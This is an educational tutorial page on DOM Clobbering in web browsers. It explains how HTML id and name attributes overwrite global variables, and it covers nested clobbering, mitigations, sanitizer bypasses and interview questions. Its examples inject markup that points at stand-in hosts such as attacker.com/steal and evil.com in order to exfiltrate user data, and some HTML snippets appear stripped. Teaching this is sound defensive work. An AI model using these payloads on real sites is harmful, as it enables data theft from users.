

import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

# DOM Clobbering

**DOM Clobbering** is a type of vulnerability where injecting non-script HTML into a page allows an attacker to overwrite global variables (specifically on the `window` or `document` objects). This can hijack the execution flow of the application, even if strict Content Security Policies (CSP) prevent traditional XSS.

:::info[Core Philosophy]
**The Sins of Legacy Web**. In the early days of the web, browsers mapped HTML `id` and `name` attributes directly to the `window` object to make scripting easier. Today, this legacy convenience is a massive security blind spot.
:::

---

## 1. Easy: The Core Mechanism

If you have an HTML element with an `id` or `name`, the browser automatically creates a global variable referencing that element.

```html

<script>
  // This evaluates to true! 'logger' points to the  element.
  console.log(window.logger instanceof HTMLImageElement); 
</script>
```

If your JavaScript code relies on a global variable but doesn't initialize it properly, an injected HTML tag can "clobber" (overwrite) that variable with a DOM element.



---

## 2. Medium: Clobbering Multi-Level Objects

Clobbering isn't limited to flat variables. Attackers can clobber nested object properties (like `config.url`) by exploiting HTML Collections and `<form>` elements.

If two elements have the same `name`, they form an `HTMLCollection`.
If a `<form>` contains an `<input>`, the input is accessible as a property of the form.

```html
<!-- Clobbering window.config.apiUrl -->
<form id="config">
  <input name="apiUrl" value="https://attacker.com/steal">
</form>

<script>
  // config points to the <form>
  // config.apiUrl points to the <input>
  // config.apiUrl.value is "https://attacker.com/steal"
  console.log(window.config.apiUrl.value); 
</script>
```

---

## 3. Hard: Implementation and Mitigation

<Tabs groupId="lang" queryString>
<TabItem value="js" label="JavaScript">

```javascript
// Vulnerable Code Pattern
// If 'analyticsConfig' is undefined, the OR operator falls back to the window object.
// An attacker can inject <a id="analyticsConfig" href="https://evil.com">
const targetUrl = (window.analyticsConfig && window.analyticsConfig.href) || '/default-track';

fetch(targetUrl, { body: userData }); // Data stolen!
```

</TabItem>
<TabItem value="ts" label="TypeScript">

```typescript
// Mitigation: Strict Type Checking and Initialization
// 1. Never rely on uninitialized global variables.
// 2. Explicitly verify the type of the object.

const getConfigUrl = (): string => {
  // Even if window.analyticsConfig is clobbered by an HTMLElement,
  // this check ensures we only use it if it's a plain object.
  if (
    typeof window.analyticsConfig === 'object' && 
    !(window.analyticsConfig instanceof HTMLElement)
  ) {
    return window.analyticsConfig.href;
  }
  return '/default-track';
};
```

</TabItem>
</Tabs>

---

## 4. Advanced: Sanitizer Bypasses

HTML Sanitizers (like DOMPurify) are designed to strip dangerous tags (`<script>`, `<iframe>`) but often allow safe tags (`<a>`, `<form>`, ``). 

If an application takes user input, sanitizes it, and inserts it into the DOM, an attacker can use perfectly "safe" tags to perform DOM Clobbering. By overwriting internal variables used by the sanitizer or the rendering framework itself, the attacker can cause the application to execute malicious code downstream.

To prevent this, modern sanitizers must actively strip `id` and `name` attributes from user-supplied HTML unless strictly necessary.

---

## 5. Interview Prep: 4 Key Questions

### Q1: Why is DOM Clobbering dangerous even if you have a strict CSP?
**A:** A strict Content Security Policy (CSP) prevents the execution of unauthorized JavaScript. However, DOM Clobbering relies entirely on injecting **standard HTML markup** (like `<a>` or `<form>`), which CSP does not block. The vulnerability occurs when the application's *own trusted JavaScript* interacts with the clobbered DOM nodes, causing logic flaws or data exfiltration.

### Q2: Which HTML attributes are the primary vectors for DOM Clobbering?
**A:** The `id` and `name` attributes. Any element with an `id` becomes a property of the global `window` object. Certain elements (like `<iframe>`, `<form>`, ``, `<a>`) with a `name` attribute also become properties of the `window` or `document` objects.

### Q3: How do you clobber a nested property like `window.app.version`?
**A:** By using nested HTML elements that establish property relationships. The most common way is using a `<form>` and an `<input>`. 
`<form id="app"><input name="version" value="2.0"></form>`. 
`window.app` resolves to the form, and `window.app.version` resolves to the input element.

### Q4: What is the most effective way to prevent DOM Clobbering in your JavaScript code?
**A:** 1) Avoid using global variables on the `window` object whenever possible using modern module scoping. 2) If you must use global variables, always explicitly declare and initialize them (`window.config = window.config || {}`). 3) When accessing globals, explicitly verify their type using `instanceof` or `typeof` to ensure they haven't been replaced by an `HTMLElement`.
